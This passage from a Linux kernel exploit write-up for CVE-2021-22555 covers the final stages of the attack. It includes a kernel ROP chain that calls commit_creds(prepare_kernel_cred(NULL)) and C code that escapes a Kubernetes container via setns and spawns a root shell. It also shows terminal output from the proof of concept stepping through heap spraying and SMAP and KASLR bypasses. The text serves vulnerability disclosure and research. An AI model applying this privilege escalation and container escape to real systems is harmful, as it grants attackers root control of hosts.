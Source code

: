 [Figure 11: Freed `struct pipe_buffer` reclaimed with a fake `struct pipe_buffer`]

The final stage of the exploit is to close all pipes in order to trigger the release which in turn will kick off the JOP chain. Finding JOP gadgets is hard, thus the goal is to achieve a kernel stack pivot as soon as possible in order to execute a kernel ROP chain.

#### Kernel ROP chain

We save the value of RBP at some scratchpad address in kernel so that we can later resume the execution, then we call `commit_creds(prepare_kernel_cred(NULL))` to install kernel credentials and finally we call `switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)` to switch the namespace of process 1 to the one of the *init* process. After that, we restore the value of RBP and return to resume the execution (which will immediately make `free_pipe_info()` return).

#### Escaping the container and popping a root shell

Arriving back in userland, we now have root permissions to change mnt, pid and net namespaces to escape the container and break out of the kubernetes pod. Ultimately, we pop a root shell.

```c
  setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
  setns(open("/proc/1/ns/pid", O_RDONLY), 0);
  setns(open("/proc/1/ns/net", O_RDONLY), 0);

  char *args[] = {"/bin/bash", "-i", NULL};
  execve(args[0], args, NULL);
```

## Proof-Of-Concept

The Proof-Of-Concept is available at [https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555).

Executing it on a vulnerable machine will grant you root:

```sh
theflow@theflow:~$ gcc -m32 -static -o exploit exploit.c
theflow@theflow:~$ ./exploit
[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: ffc
[+] real_idx: fc4

[+] STAGE 2: SMAP bypass
[*] Freeing real secondary message...
[*] Spraying fake secondary messages...
[*] Leaking adjacent secondary message...
[+] kheap_addr: ffff91a49cb7f000
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Leaking primary message...
[+] kheap_addr: ffff91a49c7a0000

[+] STAGE 3: KASLR bypass
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
```